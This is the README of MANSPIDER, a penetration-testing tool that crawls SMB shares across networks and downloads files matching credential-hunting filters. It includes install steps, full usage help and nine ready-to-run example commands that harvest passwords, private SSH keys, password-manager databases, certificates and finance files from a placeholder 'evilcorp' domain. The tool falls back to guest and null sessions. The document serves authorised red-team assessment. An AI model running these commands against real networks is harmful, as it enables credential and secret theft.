 # MANSPIDER
### Crawl SMB shares for juicy information. File content searching + regex is supported!

### UPDATE 2023-10-15
**[textract](https://github.com/deanmalmgren/textract), one of manspider's upstream dependencies, is no longer being updated. For this reason, you may run into problems when installing with pip. The recommended installation method is now [Docker](https://hub.docker.com/r/blacklanternsecurity/manspider):**

```bash
docker run --rm -v ./manspider:/root/.manspider blacklanternsecurity/manspider --help
```

Note there is also a helper script `manspider.sh` which will automatically mount volumes for manspider's `loot` and `logs` directories, making it a bit more convenient to run:

```bash
./manspider.sh --help
```

![manspider](https://user-images.githubusercontent.com/20261699/74963251-6a08de80-53df-11ea-88f4-60c39665dfa2.gif)

### File types supported:
- `PDF`
- `DOCX`
- `XLSX`
- `PPTX`
- any text-based format
- and many more!!

### MANSPIDER will crawl every share on every target system. If provided creds don't work, it will fall back to "guest", then to a null session.
![manspider](https://user-images.githubusercontent.com/20261699/80316979-f9ab7e80-87ce-11ea-9628-3c22a07e8378.png)

### Installation:
(Optional) Install these dependencies to add additional file parsing capability:
~~~
# for images (png, jpeg)
$ sudo apt install tesseract-ocr

# for legacy document support (.doc)
$ sudo apt install antiword
~~~
Install manspider (please be patient, this can take a while):
~~~
$ pip install pipx
$ pipx install git+https://github.com/blacklanternsecurity/MANSPIDER
~~~

### Example #1: Search the network for filenames that may contain creds
NOTE: matching files are automatically downloaded into `$HOME/.manspider/loot`! (`-n` to disable)
~~~
$ manspider 192.168.0.0/24 -f passw user admin account network login logon cred -d evilcorp -u bob -p Passw0rd
~~~

### Example #2: Search for spreadsheets with "password" in the filename
~~~
$ manspider share.evilcorp.local -f passw -e xlsx csv -d evilcorp -u bob -p Passw0rd
~~~

### Example #3: Search for documents containing passwords
~~~
$ manspider share.evilcorp.local -c passw -e xlsx csv docx pdf -d evilcorp -u bob -p Passw0rd
~~~

### Example #4: Search for interesting file extensions
~~~
$ manspider share.evilcorp.local -e bat com vbs ps1 psd1 psm1 pem key rsa pub reg pfx cfg conf config vmdk vhd vdi dit -d evilcorp -u bob -p Passw0rd
~~~

### Example #5: Search for finance-related files
This example searches financy-sounding directories for filenames containing 5 or more consecutive numbers (e.g. `000202006.EFT`)
~~~
$ manspider share.evilcorp.local --dirnames bank financ payable payment reconcil remit voucher vendor eft swift -f '[0-9]{5,}' -d evilcorp -u bob -p Passw0rd
~~~

### Example #6: Search for SSH keys by filename
~~~
$ manspider share.evilcorp.local -e ppk rsa pem ssh rsa -o -f id_rsa id_dsa id_ed25519 -d evilcorp -u bob -p Passw0rd
~~~

### Example #7: Search for SSH keys by content
~~~
$ manspider share.evilcorp.local -e '' -c 'BEGIN .{1,10} PRIVATE KEY' -d evilcorp -u bob -p Passw0rd
~~~

### Example #8: Search for password manager files
~~~bash
# .kdbx - KeePass Password Database (KeePass, KeePassXC)
# .kdb - KeePass Classic Database (KeePass 1.x)
# .1pif - 1Password Interchange Format (1Password)
# .agilekeychain - Agile Keychain Format (1Password, deprecated)
# .opvault - OPVault Format (1Password)
# .lpd - LastPass Data File (LastPass)
# .dashlane - Dashlane Data File (Dashlane)
# .psafe3 - Password Safe Database (Password Safe)
# .enpass - Enpass Password Manager Data File (Enpass)
# .bwdb - Bitwarden Database (Bitwarden)
# .msecure - mSecure Password Manager Data File (mSecure)
# .stickypass - Sticky Password Data File (Sticky Password)
# .pwm - Password Memory Data File (Password Memory)
# .rdb - RoboForm Data File (RoboForm)
# .safe - SafeInCloud Password Manager Data File (SafeInCloud)
# .zps - Zoho Vault Encrypted Data File (Zoho Vault)
# .pmvault - SplashID Safe Data File (SplashID Safe)
# .mywallet - MyWallet Password Manager Data File (MyWallet)
# .jpass - JPass Password Manager Data File (JPass)
# .pwmdb - Universal Password Manager Database (Universal Password Manager)
$ manspider share.evilcorp.local -e kdbx kdb 1pif agilekeychain opvault lpd dashlane psafe3 enpass bwdb msecure stickypass pwm rdb safe zps pmvault mywallet jpass pwmdb -d evilcorp -u bob -p Passw0rd
~~~

### Example #9: Search for certificates
~~~
$ manspider share.evilcorp.local -e pfx p12 pkcs12 pem key crt cer csr jks keystore key keys der -d evilcorp -u bob -p Passw0rd
~~~

### Usage Tip #1:
You can run multiple instances of manspider at one time. This is useful when one instance is already running, and you want to search what it's downloaded (similar to `grep -R`). To do this, specify the keyword `loot` as the target, which will search the downloaded files in `$HOME/.manspider/loot`.

### Usage Tip #2:
Reasonable defaults help prevent unwanted scenarios like getting stuck on a single target. All of these can be overridden:
- **default spider depth: 10** (override with `-m`)
- **default max filesize: 10MB** (override with `-s`)
- **default threads: 5** (override with `-t`)
- **shares excluded: `C$`, `IPC$`, `ADMIN$`, `PRINT$`** (override with `--exclude-sharenames`)

### Usage Tip #3:
Manspider accepts any combination of the following as targets:
- IPs
- hostnames
- subnets (CIDR format)
- files containing any of the above
- local folders containing files

For example, you could specify any or all of these:
- **`192.168.1.250`**
- **`share.evilcorp.local`**
- **`192.168.1.0/24`**
- **`smb_hosts.txt`**
- **`loot`** (to search already-downloaded files)
- **`/mnt/share`** (to recursively search a directory)
    - NOTE: when searching local files, you must specify a directory, not an individual file

## Usage:
~~~
usage: manspider [-h] [-u USERNAME] [-p PASSWORD] [-d DOMAIN] [-m MAXDEPTH] [-H HASH] [-t THREADS] [-f REGEX [REGEX ...]] [-e EXT [EXT ...]] [--exclude-extensions EXT [EXT ...]]
                 [-c REGEX [REGEX ...]] [--sharenames SHARE [SHARE ...]] [--exclude-sharenames [SHARE ...]] [--dirnames DIR [DIR ...]] [--exclude-dirnames DIR [DIR ...]] [-q] [-n]
                 [-mfail INT] [-o] [-s SIZE] [-v]
                 targets [targets ...]

Scan for juicy data on SMB shares. Matching files and logs are stored in $HOME/.manspider. All filters are case-insensitive.

positional arguments:
  targets               IPs, Hostnames, CIDR ranges, or files containing targets to spider (NOTE: local searching also supported, specify directory name or keyword "loot" to search
                        downloaded files)

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --username USERNAME
                        username for authentication
  -p PASSWORD, --password PASSWORD
                        password for authentication
  -d DOMAIN, --domain DOMAIN
                        domain for authentication
  -m MAXDEPTH, --maxdepth MAXDEPTH
                        maximum depth to spider (default: 10)
  -H HASH, --hash HASH  NTLM hash for authentication
  -t THREADS, --threads THREADS
                        concurrent threads (default: 5)
  -f REGEX [REGEX ...], --filenames REGEX [REGEX ...]
                        filter filenames using regex (space-separated)
  -e EXT [EXT ...], --extensions EXT [EXT ...]
                        only show filenames with these extensions (space-separated, e.g. `docx xlsx` for only word & excel docs)
  --exclude-extensions EXT [EXT ...]
                        ignore files with these extensions
  -c REGEX [REGEX ...], --content REGEX [REGEX ...]
                        search for file content using regex (multiple supported)
  --sharenames SHARE [SHARE ...]
                        only search shares with these names (multiple supported)
  --exclude-sharenames [SHARE ...]
                        don't search shares with these names (multiple supported)
  --dirnames DIR [DIR ...]
                        only search directories containing these strings (multiple supported)
  --exclude-dirnames DIR [DIR ...]
                        don't search directories containing these strings (multiple supported)
  -q, --quiet           don't display matching file content
  -n, --no-download     don't download matching files
  -mfail INT, --max-failed-logons INT
                        limit failed logons
  -o, --or-logic        use OR logic instead of AND (files are downloaded if filename OR extension OR content match)
  -s SIZE, --max-filesize SIZE
                        don't retrieve files over this size, e.g. "500K" or ".5M" (default: 10M)
  -v, --verbose         show debugging messages
~~~
